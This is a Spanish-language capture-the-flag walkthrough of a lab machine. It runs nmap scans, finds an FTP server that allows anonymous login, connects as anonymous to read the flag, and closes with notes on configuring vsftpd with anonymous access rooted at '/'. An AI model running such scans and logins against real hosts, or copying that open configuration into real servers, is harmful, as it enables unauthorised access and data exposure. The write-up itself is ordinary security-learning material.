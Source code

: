 🗹 Verificar si el host está activo:

```shell
ping -c 1 10.129.163.99

PING 10.129.163.99 (10.129.163.99) 56(84) bytes of data.
64 bytes from 10.129.163.99: icmp_seq=1 ttl=63 time=169 ms

--- 10.129.163.99 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 168.735/168.735/168.735/0.000 ms
```

El sistema operativo identificado es **Linux**.

🗹 Identificar puertos abiertos y qué servicios están corriendo:

```shell
sudo nmap -p- -sS --open --min-rate 5000 -n -Pn -vv 10.129.163.99 -oG openPorts

PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 63
```

🗹 Ejecutar scripts para recopilar información adicional:

```shell
sudo nmap -sCV -p 21 10.129.163.99 -oN targeted

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0              32 Jun 04  2021 flag.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.14.71
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
Service Info: OS: Unix
```

| Puertos | Servicios | Versión      |
| ------- | --------- | ------------ |
| 21      | ftp       | vsftpd 3.0.3 |
¿Qué es FTP?
[RFC](https://www.rfc-es.org/rfc/rfc0959-es.txt)

🗹 Conectarse al servidor mediante el protocolo FTP con el usuario **anonymous** y sin ingresar contraseña:

```shell
ftp ftp://anonymous:@10.129.163.99

Connected to 10.129.163.99.
220 (vsFTPd 3.0.3)
331 Please specify the password.
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
200 Switching to Binary mode.
ftp>
```

### Root flag

La **flag** se encuentra en el directorio principal:

`more flag.txt`
## Cositas aprendidas

✅ Configurar el servicio FTP:
- Instalar el servidor FTP **vsftpd** (Very Secure FTP Daemon): `sudo apt install vsftpd`.
- Configurar el servidor FTP modificando el archivo `/etc/vsftpd.conf`:

```shell
anonymous_enable=YES
anon_root=/
```

- Habilitar el servicio `vsftpd` con el comando `systemctl start vsftpd`.
- Si hacemos una actualización a la configuración del archivo `/etc/vsftpd` reiniciar el servicio con el comando `systemctl restart vsftpd`.